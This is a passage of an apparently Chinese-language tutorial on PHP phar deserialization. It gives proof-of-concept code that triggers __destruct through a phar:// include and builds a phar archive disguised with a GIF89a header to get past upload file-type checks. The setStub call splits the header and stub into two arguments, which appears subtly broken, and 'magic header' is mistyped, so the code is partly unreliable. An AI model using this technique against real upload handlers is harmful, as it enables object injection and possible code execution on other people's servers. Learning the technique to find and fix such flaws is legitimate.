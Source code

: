 ### 直接利用

* 有可利用函数
* 有可直接利用的魔法方法或pop链
* 函数参数可控，并且可以输入特殊字符 :、/、phar

```php
<?php
class Test{
	public function __destruct() {
		echo 'i am __destruct(): ';
		echo $this->data.'</br>';
	}
}
include('phar://test.phar');
?>
```

### 绕过幻术头检测

phar 在设计时, 只要求前缀为 `__HALT_COMPILER();` 而后缀或者内容并未设限, 可以构造文件绕过上传

```php
<?php
    class TestObject {
    }

    @unlink("sd.phar");
    $phar = new Phar("sd.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a","<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
    $o = new TestObject();
    $o->data='sd!';
    $phar->setMetadata($o); //将自定义meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

```php
<?php
include('phar://sd.gif');
class TestObject {
    function __destruct()
{
        echo $this->data;
    }
}
?>
```

成功将 meta-data 中 data 数据反序列化出来
